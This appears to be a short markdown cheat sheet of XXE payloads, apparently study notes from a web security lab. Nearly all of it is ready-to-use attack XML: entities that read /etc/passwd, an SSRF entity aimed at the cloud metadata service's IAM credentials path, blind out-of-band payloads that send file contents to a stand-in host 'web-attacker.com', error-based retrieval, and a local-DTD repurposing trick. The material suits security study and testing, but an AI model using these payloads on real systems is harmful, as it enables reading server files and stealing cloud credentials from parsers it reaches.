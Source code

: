 ## Summary

1. File inclusion

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
</stockCheck>
```

2. SSRF

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
</stockCheck>
```

3. Blind XXE
	1. Out-of-band techiniques (OAST)

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> 
%eval; 
%exfiltrate;
```

	2. Retrieve data via error messages

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval; 
%error;
```

	3. Repurpose a local DTD

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
